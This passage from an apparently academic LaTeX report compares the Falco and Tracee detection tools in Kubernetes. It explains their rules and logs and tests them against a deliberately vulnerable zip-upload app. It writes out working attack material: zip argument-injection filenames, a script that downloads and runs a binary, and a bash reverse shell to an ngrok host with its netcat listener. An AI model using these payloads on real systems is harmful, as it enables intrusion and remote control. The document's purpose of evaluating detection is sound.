    \fbox{
\includegraphics[width=0.70\linewidth]{images/nofiles.png}}
    \caption{Upload Screen of the Example WebApp}
    \label{fig:nofiles}
\end{figure}

Finally when files are uploaded, they can be downloaded either as a new zip or individually by clicking on them. We can also upload a new zip to add other files to the pool. This is show in \autoref{fig:uploaded}.

\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.70\linewidth]{images/uploaded.png}}
    \caption{Screen of the Example WebApp with some Uploaded Files}
    \label{fig:uploaded}
\end{figure}


\section{Rules and Logs of Falco and Tracee}
\label{sec:rules}

In this section, we discuss in more details how the rules work in Falco and Tracee and how their logs can be interpreted. What we want to highlight here are the differences in the rules engines and the information that is included in the event produced after detection.


\subsection{Falco}
The rule engine of Falco is based on the YAML format like other standard configuration files in a Kubernetes environment. This enables the knowledge of a single formatting language that is then adapted to the specific knowledge of how Falco rules are made. We report here the most interesting fields of a rule. More details can be found in \cite{falcoFields}:
\begin{itemize}
    \item \textbf{rule}: name for the rule
    \item \textbf{condition}: filtering expression applied to the rule
    \item \textbf{desc}: long description of what is detected
    \item \textbf{output}: message if a matching event occurs
    \item \textbf{priority}: representation of severity between emergency, alert, critical, error, warning, notice, informational, debug
    \item \textbf{exceptions}: special cases where the rule is not applied
\end{itemize}
All the conditions in Falco are composed by a set of default macro conditions\cite{falcoMacros}. Other macros can be overridden to fit the particular configuration of the environment (e.g. SSH port, ...). To compose a rule there is the need to study which macros and logic expressions can match the potential threat we want to monitor. Macros and list can help generalize rules and adding specific configurations for the single system without changing directly the set of rules.

The default set of rules\cite{falcoRules} is based on syscall events and it maintained by the community and Falco authors. They are in different development state from incubating to deprecated and they can create different alert levels from \texttt{INFO} to \texttt{CRITICAL} based on the severity of the event. By default only the stable rules are used. Here we report some examples:
\begin{itemize}
    \item Drop and execute a new binary in a container: a new executable file is injected into the container and it was not present during image build;
    \item PTRACE anti-debug attempt: the PTRACE syscall is often used by malware to understand if they are debugged to mask their behavior;
    \item Redirect STDOUT/STDIN to network connection in container: detects wheter input or output is redirected to the network to alert about potential reverse shell or remote code execution;
    \item Create symlink over sensitive files: detect if a symlink is created for sensitive files in \texttt{/etc} or root directory;
    \item Linux kernel module injection detected: find if a new kernel module is injected using \texttt{insmod} or \texttt{modprobe}.
\end{itemize}


\subsubsection{Log Structure}
To be able to understand what is happening in our system we need to interpret the generated logs. We choose to setup Falco to output events in JSON format. This is used also to forward them to the webhook. Here we reported the most interesting fields of the log:
\begin{itemize}
  \item \textbf{output}: a human-readable message generated by Falco describing the detected behavior;
  \item \textbf{container.id}: the ID of the container where the event was detected;
  \item \textbf{container.name}: the name of the container involved in the event;
  \item \textbf{evt.type}: the type of system call or event detected (e.g. \texttt{open}, \texttt{execve}, \texttt{mkdir});
  \item \textbf{network info}: all the information about IP, port and network protocol used;
  \item \textbf{k8s.ns.name}: the Kubernetes namespace where the pod is running;
  \item \textbf{k8s.pod.name}: the name of the pod where the alert was triggered;
  \item \textbf{proc.name}: the name of the process that triggered the alert (e.g. \texttt{bash}, \texttt{python3});
  \item \textbf{user.name}: the username under which the process was executed (e.g. \texttt{root});
  \item \textbf{priority}: the severity level of the alert (\texttt{Critical}, \texttt{Error}, \texttt{Warning}, \texttt{Notice}, \texttt{Info});
  \item \textbf{rule}: the name of the Falco rule that was triggered;
  \item \textbf{time}: timestamp of when the event occurred (in UTC, RFC3339 format).
\end{itemize}
Logs from Falco and Falco handler can be taken with:

\texttt{bash falco-conf/falco-logs.sh}

\texttt{kubectl logs deployment/falco-handler -n default}

\noindent Here is an example log line during a reverse shell attack. The fields below are only the most interesting in our opinion:
\begin{verbatim}
{
   "output": "08:49:05.463393946: Notice Redirect stdout/stdin to network connection ...",
   "output_fields": {
      "container.id": "0123456789abc",
      "container.name": "k8s_zipapp_zipapp-...",
      "evt.type":"dup2",
      "fd.l4proto": "tcp",
      "fd.sip": "18.158.58.205",
      "k8s.ns.name": default,
      "k8s.pod.name": zipapp-...,
      "proc.aname[2]": "sh",
      "proc.aname[3]": "zip",
      "proc.cmdline": "bash evil ...",
      "proc.name": "bash",
      "user.name": "root",
   },
   "priority":"Notice",
   "rule":"Redirect STDOUT/STDIN to Network Connection in Container",
   "time":"2025-05-28T08:49:05.463393946Z"
}
\end{verbatim}


\subsection{Tracee}
By default, Tracee monitors a set of Linux kernel events that are commonly linked to suspicious or malicious activity. These events are based on system calls and other kernel-level actions that can indicate an attack or unauthorized behavior in containerized environments. It supports the Rego-based rules that are written using the Open Policy Agent (OPA) language. Rego is a declarative, logic-based language commonly used for policy enforcement. In Tracee it enables behavioral detection and granular definition of security policies. Rego rules are checked on every event and they can be hot-reloaded without restarting the engine. Tracee supports both built-in rules and user-defined ones.

Rules for Tracee can be also signature-based written in JSON or Go plugins compiled and loaded in the Tracee engine. These three methods are not completely interchangeable, but they are complementary. Signature-base are simpler and they support not very complex logic. Rego-based rule support a complex logic, but they are difficult to understand and create. The most efficient way to define a rule is with Go plugin that are not hot-reloadable, but they are compiled and loaded. In general we can say that custom rules in Tracee are more complex than Falco ones. This leads to a steeper learning curve and at the same time makes Tracee a forensics tool while Falco is a simpler alerting tool.

Tracee offers a wide set of default rules\cite{traceeRules} that are grouped into the following categories:
\begin{itemize}
    \item \textbf{Security Events}: monitors system activities in real-time, generating security events that equip users with the information they need to assess and respond to the state of their digital environments. For example \texttt{Anti-Debugging}, \texttt{Illegitimate shell} and \texttt{Disk Mount}.
    \item \textbf{Network Events}: makes it easy to trace network activity in common protocols such as \texttt{net\_packet\_ipv4}, \texttt{net\_packet\_tcp}.
    \item \textbf{Syscall}: traces Linux system calls such as \texttt{open}, \texttt{exit}, \texttt{kill}.
    \item \textbf{Extra Events}: other events, that are not included in the other categories, can be monitored such as \texttt{cgroup\_mkdir}, \texttt{file\_modification}.
\end{itemize}


\subsubsection{Log Structure}
Once Tracee is running in the Kubernetes cluster, it begins capturing and logging events related to system activity. The output logs are structured as JSON lines, where each line represents an event captured by eBPF. Each event typically contains the following fields:
\begin{itemize}
    \item \textbf{timestamp}: exact time the event occurred;
    \item \textbf{processId}: ID of the process;
    \item \textbf{userId}: ID of the user executing the process;
    \item \textbf{processName}: name of the process involved in the event;
    \item \textbf{hostName}: name of the pod where the event occurred;
    \item \textbf{eventName}: name of the detected event;
    \item \textbf{syscall}: the type of system call or event detected (e.g. \texttt{open}, \texttt{execve}, \texttt{mkdir});
    \item \textbf{args}: a list of arguments or parameters relevant to the event like network options;
    \item \textbf{metadata}: a detailed description of what happened and a MITRE classification of the event.
\end{itemize}
Logs from Tracee and Tracee handler can be taken with:

\texttt{bash tracee-conf/tracee-logs.sh}

\texttt{kubectl logs deployment/tracee-handler -n default}

\noindent Here is an example log line during a reverse shell attack. The following are the most relevant fields of the log:
\begin{verbatim}
{
   "timestamp": 1748422408882744815,
   "processId": 452,
   "userId": 0,
   "processName": "bash",
   "hostName": "zipapp-5485c4dc",
   "eventName": "stdio_over_socket",
   "syscall": "dup",
   "args":[
      {
         "name": "Port",
         "value": "19023"
      },
      {
         "name": "IP address",
         "value": "3.67.161.133"
      },
      ...
   ],
   "metadata": {
      "Description": "A process has its standard input/output redirected to a socket...",
      "Properties": {
         "Category": "execution",
         "Severity": 3,
         "Technique": "Unix Shell",
         "external_id": "T1059.004",
         "signatureName": "Process standard input/output over socket detected"
      }
   }
}
\end{verbatim}


\section{Attacks in the Scenario}
\label{sec:attacks}

As introduced in the previous chapter, the web application allows users to simulate realistic attack scenarios because it is possible to upload and unzip folders containing scripts that are neither sanitized nor validated.  In this section, we use it to launch attacks such as command injection, reverse shells and the use of \texttt{ptrace}. For each tool, we report only the most relevant portion of the logs that are obtained using the following instructions:

\texttt{bash falco-conf/falco-logs.sh}

\texttt{bash tracee-conf/tracee-logs.sh}


\subsection{Attack Implementation}
The attack payloads are packaged in zip folders that contain files such as:
\begin{verbatim}
-T
-TT
bash evil
evil
\end{verbatim}
These filenames were intentionally chosen. The files named \texttt{-T} and \texttt{-TT} correspond to command-line options used by the \texttt{zip} utility: the first one allows testing the archive for integrity while the second one specifies a custom test command to run after the creation of the archive. The name \texttt{bash evil} is intentionally crafted to mimic a shell command rather than a typical filename. This command would instruct the system to use the Bash shell to execute a file named evil.
The file named \texttt{evil} is an executable file and it contains a malicious Bash script designed to execute the attacks.


\subsection{Dropped Executable}
The dropped executable attack involves that involves executing arbitrary commands on the host operating system through a vulnerable application.
The following is the content of the \texttt{evil} script:
\begin{verbatim}
#!/bin/bash
apt-get install wget
wget https://busybox.net/downloads/binaries/1.21.1/busybox-i686
chmod +x busybox-i686
./busybox-i686 echo "BOOM — upper layer binary executed"
\end{verbatim}
Once the folder is uploaded and extracted, its structure allows for the execution of the \texttt{evil} script. The \texttt{wget} command is used to download the external binary.


\subsubsection{Detection Results}
Falco successfully detected the malicious behavior, generating the following alert:

\begin{verbatim}
Priority:    Critical
Rule:        Drop and execute new binary in container
Container:   k8s_zipapp_zipapp-6848db7cb4-6lkvt
Image:       zipapp:latest
Process:     busybox-i686
Command:     busybox-i686 echo "BOOM — upper layer binary executed"
Executed by: bash (parent), sh (grandparent)
Executed Path: /tmp/225648cd7e2493d7adc334e5cc2f27084124d8c6/busybox-i686
Flags:       EXE_WRITABLE, EXE_UPPER_LAYER
User:        root (UID 0)
Working Dir: /tmp/225648cd7e2493d7adc334e5cc2f27084124d8c6/
Source:      syscall
\end{verbatim}
The detection was triggered by the rule \textbf{Drop and execute new binary in container}, indicating that an attacker runs a custom executable inside the container. The event was classified as \texttt{Critical}, and the log specifies that the binary was executed by \texttt{bash} and \texttt{sh}.\\
Tracee also detected the attack, producing the following log:
\begin{verbatim}
Host:           zipapp-5879f489
Process:
  Name:         wget
  User:         root (UID 0)
  Syscall:      write
  Return Value: 139

Event:          dropped_executable
Trigger:        magic_write
File Written:   /tmp/568e2245203779c6ed687e3238bd3d8ad8f7293a/busybox-i686
File Type:      Executable binary (ELF)

Detection Policy: default-policy
MITRE ATT&CK:
  - Signature Name: New executable dropped
  - Severity:    Medium (2/5)
\end{verbatim}
Tracee identified a \texttt{dropped\_executable} event triggered by the \texttt{magic\_write} rule. It observed a \texttt{wget} process that wrote an executable binary. 
Both tools provide valuable information regarding the triggered event. 


\subsection{Reverse shell}

A reverse shell is a technique that allows an attacker to access a remote computer by initiating a shell session from the target system, bypassing firewall restrictions.
The reverse shell attack was executed using the same procedure described in the previous section for command injection with the only difference being the content of the \texttt{evil} script, which was modified to include the necessary commands for simulating a reverse shell.
\begin{verbatim}
#!/bin/bash
bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/14980 0>&1
\end{verbatim}
Unlike previous scenarios, this attack requires a minimal setup on the attacker's side to receive the incoming connection. Specifically, the attacker must first expose a TCP port using Ngrok:

\texttt{ngrok tcp 4444}

\noindent Then, a Netcat listener must be started on the same port in a separate terminal window:

\texttt{nc -nlv 4444}


\subsubsection{Detection Results}
Both Falco and Tracee detected the malicious behavior, producing the following alerts.
\begin{verbatim}
